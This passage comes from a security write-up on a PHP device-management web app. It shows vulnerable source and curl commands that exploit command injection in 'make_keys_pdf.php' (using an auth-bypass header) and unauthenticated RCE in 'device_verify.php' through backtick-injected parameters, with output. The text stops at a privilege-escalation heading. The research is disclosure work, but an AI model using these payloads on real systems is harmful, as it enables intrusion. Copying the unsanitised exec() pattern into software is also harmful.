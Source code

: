 ```php
    if (file_exists($file)) {
        readfile($file);
        unlink($file);
    }
}


```
since `auth.php` is included , the auth bypass is needed here. other than that it is a straight forward command execution

**exploitation :** send a request to endpoint `features/make_keys_pdf.php` with headers mentioned in the auth bypass above set accordingly and with get param `set` set to command to be executed inside backticks
```console
$ curl 'http://192.168.0.19/features/make_keys_pdf.php?set=`id>PWNED`' -H 'X-Requested-With: xmlhttprequest' -H 'Authorization: Basic YWRtaW46YWRtaW5h' 

$ curl 'http://192.168.0.19/features/PWNED'
uid=1000(wms) gid=1000(wms) groups=42(shadow),1000(wms),1005(ejabberd)

```

### RCE
This one is very straight forward . a user supplied value is directly concatenated in to a command and executed. And since `auth.php` is not included there is no need for auth bypass. The vulnerable endpoint is  `/devices/device_verify.php`
```php
if (isset($_GET["action"]) && isset($_GET["ip"])) {
    $nmap_opts = "-sS";
    if (isset($_GET["rawScan"])) {
        $nmap_opts = "--unprivileged -sT";
    }
    $content = exec("nice -n 20 nohup sudo nmap --script /var/www/lua/discovery.nse " . $nmap_opts . " -n --max-retries 2 --max-hostgroup 1 --max-rtt-timeout 1750ms --initial-rtt-timeout 1250ms --open -p 80,443 -oG - " . $_GET["ip"] . " 2>&1 >/dev/null");
    echo "{" . $content . "}";
}

?>
```

**exploitation :** send a request to endpoint  `/devices/device_verify.php` with get param `action` set to any value and get param `ip` set to a the command to be executed inside backticks

```console

$ curl 'http://192.168.0.19/devices/device_verify.php?action=xx&ip=`id>/tmp/PWNED`'

```

#### privilege escalation
